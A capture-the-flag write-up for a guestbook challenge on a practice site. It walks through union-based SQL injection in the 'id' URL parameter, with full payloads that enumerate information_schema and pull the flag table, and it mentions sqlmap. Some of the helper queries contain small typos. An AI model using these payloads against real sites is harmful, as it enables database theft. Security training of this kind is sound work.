 The site given seems to be hackable as the parameter in URL `id` is controlable.
It's reasonable to suspect that there may be a SQL injection vulnerability .

At first,Getting the number of columns 
```
https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,2,3,4 -- -
```
Obviously,Union-based injection technique works. 

Check the version of Database used.It's `MySQL 5.7.34` (replace any number excluding 1 after the `union select` of payload above to `version()` )
So, `information_shema` is available.

* Get database list: `SELECT schema_name FROM information_schemata `
* Get table list from a database: `SELECT table_name FROM information_schema.tables where table_schema=DATABASE`
* Get column list from a table : `SELECT column_name FROM information_schema.columns where table_schema=DATABASE`

Eventually.

```
https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema='g8' -- -

https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='flag' limit 1,1 -- -

https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,flag,3,4 FROM g8.flag -- - (A shit)

https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,flag,3,4 FROM g8.flag limit 1,2 -- - (The correct one)
```

Oh,BTW. It's more efficient by using `SQLmap`. 




